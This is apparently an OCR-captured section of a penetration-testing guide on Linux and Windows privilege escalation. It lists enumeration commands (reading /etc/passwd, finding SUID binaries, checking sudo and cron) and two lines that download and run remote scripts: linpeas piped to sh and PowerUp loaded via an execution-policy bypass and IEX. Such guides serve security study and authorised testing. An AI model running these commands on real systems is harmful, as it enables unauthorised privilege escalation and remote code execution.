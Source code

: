 ### Step 1: Privilege Escalation

#### Linux Privilege Escalation

```bash
# System Information Gathering
uname -a                    # Kernel version
cat /etc/issue             # Distribution info
cat /proc/version          # Kernel and compiler info
ps aux                     # Running processes
netstat -antup             # Network connections
cat /etc/passwd            # User accounts

# SUID Binary Discovery
find / -perm -4000 2>/dev/null
# Explanation: Find SUID binaries that run with elevated privileges
# Expected output: List of potentially exploitable binaries

# Sudo Permissions Check
sudo -l
# Explanation: List commands current user can run with sudo
# Expected output: Allowed sudo commands or access denied

# Cron Jobs Analysis
cat /etc/crontab
ls -la /etc/cron*
crontab -l
# Explanation: Find scheduled tasks that might run with higher privileges
# Expected output: Scheduled commands and their execution context

# Automated Privilege Escalation Tools
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# Explanation: Comprehensive Linux privilege escalation scanner
# Expected output: Detailed system analysis with escalation vectors
```

#### Windows Privilege Escalation

```powershell
# System Information Gathering
systeminfo
whoami /all
net user
net localgroup administrators
wmic qfe list
# Explanation: Gather system info, user privileges, installed patches
# Expected output: System details for vulnerability research

# Service Enumeration
sc query
wmic service list brief
# Explanation: List running services and their configurations
# Expected output: Services potentially running with SYSTEM privileges

# Automated Windows Privilege Escalation
powershell -ep bypass -c "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"
# Explanation: PowerSploit PowerUp comprehensive privilege escalation check
# Expected output: Detailed Windows privilege escalation opportunities
```
